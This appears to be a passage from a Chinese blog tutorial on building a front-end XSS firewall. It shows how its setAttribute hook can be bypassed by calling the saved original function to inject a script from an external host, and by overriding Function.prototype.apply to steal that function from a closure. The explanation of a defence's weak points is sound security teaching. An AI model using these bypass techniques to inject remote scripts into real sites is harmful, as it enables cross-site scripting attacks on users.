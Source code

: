 
## 钩子泄露

看起来似乎毫无难度，而且也没什么不对的地方，这不就可以了吗？

如果最终就用这代码，那也太挫了。我们把原始接口都暴露在全局变量里了，攻击者只要拿了这个变量，即可绕过我们的检测代码：

```js
var el = document.createElement('script');

// 直接调用原始接口
raw_fn.call(el, 'SRC', 'http://www.etherdream.com/xss/alert.js');
document.body.appendChild(el);
```
[Run](http://jsfiddle.net/zjcqoo/pq6y9/)


靠，这不算，这只是我们测试而已。现实中谁会放在全局变量里呢，这年头不套一个闭包的脚本都不好意思拿出来。

好吧，我还是放闭包里，这总安全了吧。看你怎么隔空取物，从我闭包里偷出来。

```js
(function() {
	// 保存上级接口
	var raw_fn = Element.prototype.setAttribute;
	...
})();
```

不过，真要偷出来，那绝对是没问题的！

这个变量唯一用到的地方就是：

```js
raw_fn.apply(this, arguments)
```

这可不是一个原子操作，而是调用了 Function.prototype.apply 这个全局函数。神马。。。这。是真的，不信你可以试试！

不用说，你也懂了。我还是说完吧：我们可以重写 apply，然后随便给某个元素 setAttribute 下，就可以窃听到钩子传过来的 raw_fn 了。

```js
Function.prototype.apply = function() {
	console.log('哈哈，得到原始接口了:', this);
};
document.body.setAttribute('a', 1);
```
[Run](http://jsfiddle.net/zjcqoo/P55dj/)

<div class="post-img"><img src="/img/xss-frontend-firewall-3/func_leak.png" style="max-width:840px;" /></div>
